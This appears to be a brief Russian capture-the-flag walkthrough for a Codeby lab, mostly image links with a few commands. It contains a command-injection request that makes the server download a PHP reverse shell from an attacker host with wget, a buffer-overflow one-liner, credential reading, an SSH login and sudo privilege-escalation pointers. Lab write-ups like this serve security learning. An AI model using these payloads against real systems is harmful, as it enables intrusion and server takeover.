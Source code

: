 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

find / -user nolan

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')

Читаем файл .secret там пароль

Заходим по ssh ssh nolan@62.173.140.174 -p 18822

''sudo -l''

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



